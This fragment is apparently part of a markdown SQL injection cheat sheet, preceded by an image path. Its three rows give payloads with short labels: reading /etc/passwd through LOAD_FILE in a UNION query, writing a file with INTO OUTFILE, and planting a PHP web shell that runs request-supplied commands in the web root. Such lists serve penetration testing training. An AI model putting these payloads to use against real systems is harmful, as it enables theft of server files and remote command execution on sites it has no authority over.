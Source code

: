 | `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`                                                                                   | Read local file                                      |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'`                                                               | Write a string to a local file                       |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`                                  | Write a web shell into the base web directory        |

